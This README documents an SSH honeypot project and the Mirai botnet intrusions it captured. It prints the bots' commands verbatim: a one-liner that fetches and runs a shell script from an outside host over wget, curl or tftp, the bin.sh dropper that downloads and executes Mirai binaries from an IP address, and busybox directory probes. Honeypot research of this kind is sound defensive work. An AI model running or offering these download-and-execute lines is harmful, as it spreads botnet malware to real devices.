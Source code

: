 # SSH-POT

Created an user with username "admin" and passsword "admin". Disabled its sudo privileges. Waited for a bot or a hacker to break-in and acquired the behavior and operation log.

## Authors

1. Brian Sung
2. Omar Sharif

## How To Use

```shell
# Installing
sudo apt-get -y install ssmtp mailutils mpack

# Include this info:
# root=postmaster
# mailhub=smtp.gmail.com:587
# hostname=-raspberrypi
# AuthUser=gmailname@gmail.com
# AuthPass=gmailpassword
# FromLineOverride=YES
# UseSTARTTLS=YES
sudo nano /etc/ssmtp.conf

# Send a file: 
mpack -s "Subject" /home/pi/file.txt account@domain.com

# Run the script logrecorder.sh in backgound
./logrecorder.sh &
```

## Results

* Bot behavior 1:

```shell
echo 'cd /tmp || cd /var/run || cd /mnt || cd /root || cd / && rm bin.sh; rm curl.sh; wget http://systemservice.hldns.ru/bin.sh || curl http://systemservice.hldns.ru/curl.sh -O curl.sh || tftp systemservice.hldns.ru -c get bin.sh || tftp -r bin.sh -g systemservice.hldns.ru; chmod +x bin.sh || chmod +x curl.sh || chmod 777 bin.sh || chmod +x curl.sh; ./bin.sh || ./curl.sh' | sh
```

* bin.sh

```shell
#!/bin/sh
WEBSERVER="194.67.202.89"
BINARIES="mirai.arm mirai.arm7 mirai.m68k mirai.mips mirai.mpsl mirai.ppc mirai.sh4 mirai.spc mirai.x64 mirai.x86"
echo "ACID"
for Binary in $BINARIES; do
	wget http://$WEBSERVER/$Binary -O dvrHelper
	chmod 777 dvrHelper
	./dvrHelper $Binary
done
rm -f dvrHelper bin.sh
echo "FIN"
```

* Bot behavior 2:

```shell
/gisdfoewrsfdf
/bin/busybox cp; /gisdfoewrsfdf
/bin/busybox  mount ;/gisdfoewrsfdf
/bin/busybox  echo -e '\x47\x72\x6f\x70/' > //.nippon; /bin/busybox  cat //.nippon; /bin/busybox  rm -f //.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/tmp' > /tmp/.nippon; /bin/busybox  cat /tmp/.nippon; /bin/busybox  rm -f /tmp/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/var/tmp' > /var/tmp/.nippon; /bin/busybox  cat /var/tmp/.nippon; /bin/busybox  rm -f /var/tmp/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/sys' > /sys/.nippon; /bin/busybox  cat /sys/.nippon; /bin/busybox  rm -f /sys/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/proc' > /proc/.nippon; /bin/busybox  cat /proc/.nippon; /bin/busybox  rm -f /proc/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/dev' > /dev/.nippon; /bin/busybox  cat /dev/.nippon; /bin/busybox  rm -f /dev/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/dev/pts' > /dev/pts/.nippon; /bin/busybox  cat /dev/pts/.nippon; /bin/busybox  rm -f /dev/pts/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/run' > /run/.nippon; /bin/busybox  cat /run/.nippon; /bin/busybox  rm -f /run/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/' > //.nippon; /bin/busybox  cat //.nippon; /bin/busybox  rm -f //.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/sys/kernel/security' > /sys/kernel/security/.nippon; /bin/busybox  cat /sys/kernel/security/.nippon; /bin/busybox  rm -f /sys/kernel/security/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/dev/shm' > /dev/shm/.nippon; /bin/busybox  cat /dev/shm/.nippon; /bin/busybox  rm -f /dev/shm/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/run/lock' > /run/lock/.nippon; /bin/busybox  cat /run/lock/.nippon; /bin/busybox  rm -f /run/lock/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/sys/fs/cgroup' > /sys/fs/cgroup/.nippon; /bin/busybox  cat /sys/fs/cgroup/.nippon; /bin/busybox  rm -f /sys/fs/cgroup/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/sys/fs/cgroup/unified' > /sys/fs/cgroup/unified/.nippon; /bin/busybox  cat /sys/fs/cgroup/unified/.nippon; /bin/busybox  rm -f /sys/fs/cgroup/unified/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/sys/fs/cgroup/systemd' > /sys/fs/cgroup/systemd/.nippon; /bin/busybox  cat /sys/fs/cgroup/systemd/.nippon; /bin/busybox  rm -f /sys/fs/cgroup/systemd/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/sys/fs/pstore' > /sys/fs/pstore/.nippon; /bin/busybox  cat /sys/fs/pstore/.nippon; /bin/busybox  rm -f /sys/fs/pstore/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/sys/fs/cgroup/perf_event' > /sys/fs/cgroup/perf_event/.nippon; /bin/busybox  cat /sys/fs/cgroup/perf_event/.nippon; /bin/busybox  rm -f /sys/fs/cgroup/perf_event/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/sys/fs/cgroup/cpuset' > /sys/fs/cgroup/cpuset/.nippon; /bin/busybox  cat /sys/fs/cgroup/cpuset/.nippon; /bin/busybox  rm -f /sys/fs/cgroup/cpuset/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/sys/fs/cgroup/blkio' > /sys/fs/cgroup/blkio/.nippon; /bin/busybox  cat /sys/fs/cgroup/blkio/.nippon; /bin/busybox  rm -f /sys/fs/cgroup/blkio/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/sys/fs/cgroup/memory' > /sys/fs/cgroup/memory/.nippon; /bin/busybox  cat /sys/fs/cgroup/memory/.nippon; /bin/busybox  rm -f /sys/fs/cgroup/memory/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/sys/fs/cgroup/cpu,cpuacct' > /sys/fs/cgroup/cpu,cpuacct/.nippon; /bin/busybox  cat /sys/fs/cgroup/cpu,cpuacct/.nippon; /bin/busybox  rm -f /sys/fs/cgroup/cpu,cpuacct/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/sys/fs/cgroup/net_cls,net_prio' > /sys/fs/cgroup/net_cls,net_prio/.nippon; /bin/busybox  cat /sys/fs/cgroup/net_cls,net_prio/.nippon; /bin/busybox  rm -f /sys/fs/cgroup/net_cls,net_prio/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/sys/fs/cgroup/freezer' > /sys/fs/cgroup/freezer/.nippon; /bin/busybox  cat /sys/fs/cgroup/freezer/.nippon; /bin/busybox  rm -f /sys/fs/cgroup/freezer/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/sys/fs/cgroup/rdma' > /sys/fs/cgroup/rdma/.nippon; /bin/busybox  cat /sys/fs/cgroup/rdma/.nippon; /bin/busybox  rm -f /sys/fs/cgroup/rdma/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/sys/fs/cgroup/devices' > /sys/fs/cgroup/devices/.nippon; /bin/busybox  cat /sys/fs/cgroup/devices/.nippon; /bin/busybox  rm -f /sys/fs/cgroup/devices/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/sys/fs/cgroup/hugetlb' > /sys/fs/cgroup/hugetlb/.nippon; /bin/busybox  cat /sys/fs/cgroup/hugetlb/.nippon; /bin/busybox  rm -f /sys/fs/cgroup/hugetlb/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/sys/fs/cgroup/pids' > /sys/fs/cgroup/pids/.nippon; /bin/busybox  cat /sys/fs/cgroup/pids/.nippon; /bin/busybox  rm -f /sys/fs/cgroup/pids/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/proc/sys/fs/binfmt_misc' > /proc/sys/fs/binfmt_misc/.nippon; /bin/busybox  cat /proc/sys/fs/binfmt_misc/.nippon; /bin/busybox  rm -f /proc/sys/fs/binfmt_misc/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/sys/kernel/debug' > /sys/kernel/debug/.nippon; /bin/busybox  cat /sys/kernel/debug/.nippon; /bin/busybox  rm -f /sys/kernel/debug/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/dev/hugepages' > /dev/hugepages/.nippon; /bin/busybox  cat /dev/hugepages/.nippon; /bin/busybox  rm -f /dev/hugepages/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/dev/mqueue' > /dev/mqueue/.nippon; /bin/busybox  cat /dev/mqueue/.nippon; /bin/busybox  rm -f /dev/mqueue/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/sys/kernel/config' > /sys/kernel/config/.nippon; /bin/busybox  cat /sys/kernel/config/.nippon; /bin/busybox  rm -f /sys/kernel/config/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/sys/fs/fuse/connections' > /sys/fs/fuse/connections/.nippon; /bin/busybox  cat /sys/fs/fuse/connections/.nippon; /bin/busybox  rm -f /sys/fs/fuse/connections/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/boot/efi' > /boot/efi/.nippon; /bin/busybox  cat /boot/efi/.nippon; /bin/busybox  rm -f /boot/efi/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/var/lib/lxcfs' > /var/lib/lxcfs/.nippon; /bin/busybox  cat /var/lib/lxcfs/.nippon; /bin/busybox  rm -f /var/lib/lxcfs/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/run/user/0' > /run/user/0/.nippon; /bin/busybox  cat /run/user/0/.nippon; /bin/busybox  rm -f /run/user/0/.nippon
/bin/busybox  echo -e '\x47\x72\x6f\x70/run/user/1000' > /run/user/1000/.nippon; /bin/busybox  cat /run/user/1000/.nippon; /bin/busybox  rm -f /run/user/1000/.nippon
/gisdfoewrsfdf
/bin/busybox cat /bin/echo ;/gisdfoewrsfdf
```

* Bot sources:

```
107.170.200.63  - United States
142.44.218.192  - Canada
206.189.18.47   - United Kingdom
31.163.142.170  - Russian Federation
125.64.94.197   - China
5.188.86.172    - Netherlands
167.250.140.239 - Brazil
156.200.198.0   - Egypt
etc.
```

![screenshot](screenshot.png)

## Mirai

An ELF backdoor Trojan. **Future** is the meaning of the name in Japaness.

* **Symptoms**: Causes massive DDoS attacks, outage of popular websites, disables the Internet for thousands of people.
* **Targets**: IoT devices, IP cameras, Raspberry pi, Linux machines with BusyBox binary with default username and password setups.

* **Behaviors**:

    1. Brute-force attack to scan through network and try logins.
    2. Replicate and wait for further command.

* [Source Code](https://github.com/jgamblin/Mirai-Source-Code)

## References

1. [Similar attack](https://twitter.com/mleaustin/status/1082069872652226560?s=09)
2. [Mirai Linux backdoor](https://bestsecuritysearch.com/mirai-linux-backdoor-attacks-iot-devices/)
3. [ELF remote backdoor](http://blog.malwaremustdie.org/2016/02/mmd-0051-2016-debungking-tiny-elf.html)
4. [Similar attack in China](https://www.cnblogs.com/liuquan/p/6339820.html)
5. [Remove Mirai](https://www.2-spyware.com/remove-mirai-virus.html)

